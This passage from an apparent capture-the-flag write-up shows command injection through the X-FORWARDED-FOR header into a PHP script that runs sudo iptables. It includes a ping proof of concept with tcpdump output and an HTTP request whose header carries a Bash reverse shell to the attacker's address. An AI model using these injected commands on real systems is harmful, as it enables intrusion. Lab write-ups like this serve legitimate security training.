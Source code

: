
It’s using `system` to call `sudo iptables`. While I’m sure the developer
thought it was ok because the attacker cannot forge their remote address, what
I can control is the `X-FORWARDED-FOR` header.

### Command Injection

#### POC

I’ll send the GET request to `firewall.php` over to Burp Repeater to play with
it. I’ll add a header:

    
    
    GET /firewall.php HTTP/1.1
    Host: 10.10.11.128
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.11.128/challenge.php
    Connection: close
    Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
    Upgrade-Insecure-Requests: 1
    X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.14.6;
    

With `tcpdump` listening, I’ll send the request. I get a ping:

    
    
    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    16:28:32.771157 IP 10.10.11.128 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
    16:28:32.771182 IP 10.10.14.6 > 10.10.11.128: ICMP echo reply, id 1, seq 1, length 64
    

It’s important to have the trailing `;` after my command. Otherwise, it makes:

    
    
    sudo /usr/sbin/iptables -A INPUT -s 1.1.1.1; ping -c 1 10.10.14.6 -j ACCEPT
    

This command will result in an error saying that `ping` has no option `-j`.

#### Reverse Shell

It’s possible that special characters will mess things up, but the first I
tried was to just drop a Bash reverse shell into the header:

    
    
    GET /firewall.php HTTP/1.1
    Host: 10.10.11.128
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.11.128/challenge.php
    Connection: close
    Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
    Upgrade-Insecure-Requests: 1
    X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1";
    